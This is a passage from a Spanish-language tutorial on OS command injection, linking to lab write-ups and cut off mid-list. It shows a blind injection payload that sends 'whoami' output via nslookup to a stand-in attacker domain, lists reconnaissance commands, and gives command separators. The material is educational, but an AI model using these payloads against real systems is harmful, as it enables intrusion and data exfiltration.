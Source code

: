 En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- Blind command injection with out-of-band interaction - [https://justice-reaper.github.io/posts/Command-Injection-Lab-4/](https://justice-reaper.github.io/posts/Command-Injection-Lab-4/)

El `atacante` puede `concatenar` un `comando` al `payload` anterior para saber si `el comando fue ejecutado con éxito`. Por ejemplo:

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

Esto provocará una `consulta DNS` al `dominio` del `atacante` que contendrá el `ouput` del `comando whoami`

```
wwwuser.kgji2ohoyw.web-attacker.com
```

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- Blind command injection with out-of-band data exfiltration - [https://justice-reaper.github.io/posts/Command-Injection-Lab-5/](https://justice-reaper.github.io/posts/Command-Injection-Lab-5/)

## Comandos útiles

Después de `identificar` un `command injection`, es útil ejecutar algunos `comandos iniciales` para obtener información sobre el `sistema`. Estos son algunos `comandos útiles` para `Windows` y `Linux`:

| Propósito del comando     | Linux         | Windows         |
| ------------------------- | ------------- | --------------- |
| Nombre del usuario actual | `whoami`      | `whoami`        |
| Sistema operativo         | `uname -a`    | `ver`           |
| Configuración de red      | `ifconfig`    | `ipconfig /all` |
| Conexiones de red         | `netstat -an` | `netstat -an`   |
| Procesos en ejecución     | `ps -ef`      | `tasklist`      |

## Formas de inyectar comandos

Se pueden usar varios `caracteres` para realizar un `command injection`. Algunos caracteres funcionan como `separadores de comandos`, permitiendo que los comandos se `encadenen`. Los siguientes separadores funcionan tanto en `Windows` como en `sistemas Unix`:

```
&
&& 
| 
||
```

Los siguientes separadores funcionan solo en `sistemas Unix`:
